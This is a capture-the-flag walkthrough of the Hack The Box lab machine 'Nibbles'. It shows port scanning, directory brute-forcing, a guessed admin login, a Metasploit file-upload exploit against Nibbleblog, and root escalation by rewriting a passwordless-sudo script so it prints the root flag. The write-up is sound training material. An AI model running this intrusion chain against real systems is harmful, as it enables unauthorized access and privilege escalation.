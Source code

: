 # Hack the box - Nibbles

<img align="left" src="logo.png">
&nbsp;<span style="color:#b5e853; font-weight: bold">OS: <img align="top" src="../../../images/linux.png"> </span><b>Linux</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.75</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2018 Jan 13</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.75
```

![Nmap results](./nmap.png)

We can see that machine has web server.

## Web fingerprinting

When we go on the index page, there is simple "Hello world!" text with directory hidden in source:

![Index page](index_page.png)

We could try to directory bruteforce with ffuf:

```
ffuf -t 100 -w http://10.10.10.75/nibbleblog/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![Fuff directory bruteforce](ffuf_directory.png)

/nibbleblog/admin contains login page:

![Admin page](admin_login.png)

There is also README file accessible that could give hints about web application version:

![Readme file](readme_file.png)

There is information about service version that we could use to find exploits:

![Searchsploit](searchsploit.png)

It seems that the blog is vulnerable. But we need to have login access to upload file. Different credentials were tried but admin:nibbles seems to work:

![Nibbles dashboard](nibbles_dashboard.png)

## Exploitation

We will use metasploit framework:

```
use exploit/multi/http/nibbleblog_file_upload
set rhosts 10.10.10.75
set username admin
set password nibbles
set targeturi /nibbleblog/
run
```

![Exploitation](exploitation.png)

## Getting user flag

After complete exploit, we have access to user home directory where is our 1st flag:

![User flag](user_flag.png)

## Privilege escalation

There is script running that have no password required for sudo rights:

```
sudo -l
```

![Sudo without password](sudo_nopasswd.png)

We could use that file to output root flag with shell script:

```
echo "#!/bin/bash" > /home/nibbler/personal/stuff/monitor.sh
echo "cat /root/root.txt" >> /home/nibbler/personal/stuff/monitor.sh
sudo -u root /home/nibbler/personal/stuff/monitor.sh
```

![Root flag](root_flag.png)